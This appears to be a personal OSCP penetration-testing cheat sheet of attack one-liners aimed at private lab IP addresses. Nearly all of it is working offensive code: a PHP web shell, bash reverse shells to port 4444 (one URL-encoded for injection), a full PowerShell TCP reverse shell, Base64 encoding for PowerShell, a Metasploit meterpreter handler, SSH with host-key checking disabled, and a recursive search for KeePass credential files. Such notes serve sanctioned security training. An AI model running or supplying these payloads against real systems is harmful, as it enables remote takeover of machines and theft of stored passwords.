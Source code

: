 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22
```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text) 
$EncodedText = [Convert]::ToBase64String($Bytes) 
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue